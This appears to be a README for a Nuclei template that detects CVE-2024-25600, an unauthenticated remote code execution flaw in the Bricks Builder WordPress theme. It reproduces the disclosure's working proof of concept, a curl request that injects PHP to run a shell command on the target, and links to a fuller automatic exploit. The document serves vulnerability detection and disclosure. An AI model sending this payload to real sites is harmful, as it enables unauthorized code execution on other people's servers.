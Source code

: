 # CVE-2024-25600_Nuclei-Template
Nuclei template and information about the POC for CVE-2024-25600

## Description 📝

The Bricks theme for WordPress is vulnerable to Remote Code Execution in all versions up to, and including, 1.9.6. This makes it possible for unauthenticated attackers to execute code on the server.
This template 🛠️ is designed to detect the CVE-2024-25600 vulnerability 🕳️ found in the Bricks Builder plugin for WordPress using nuclei. The vulnerability allows for unauthenticated remote code execution on affected websites 💻.

## Proof of Concept (PoC) 📝

The Complete POC (automatic) is avaible at [https://github.com/chocapikk/CVE-2024-25600](https://github.com/chocapikk/CVE-2024-25600).

The base PoC provided by the disclosure is as follows:

```bash
curl -k -X POST https://[HOST]/wp-json/bricks/v1/render_element \
-H "Content-Type: application/json" \
-d '{
  "postId": "1",
  "nonce": "[NONCE]",
  "element": {
    "name": "container",
    "settings": {
      "hasLoop": "true",
      "query": {
        "useQueryEditor": true,
        "queryEditor": "ob_start();echo `id`;$output=ob_get_contents();ob_end_clean();throw new Exception($output);",
        "objectType": "post"
      }
    }
  }
}'
```

Replace `[HOST]` with the target website and `[NONCE]` with the nonce value retrieved from the site.

## Reference 📖

For more information about the CVE-2024-25600 vulnerability, please refer to the detailed disclosure at [Snicco.io](https://snicco.io/vulnerability-disclosure/bricks/unauthenticated-rce-in-bricks-1-9-6).
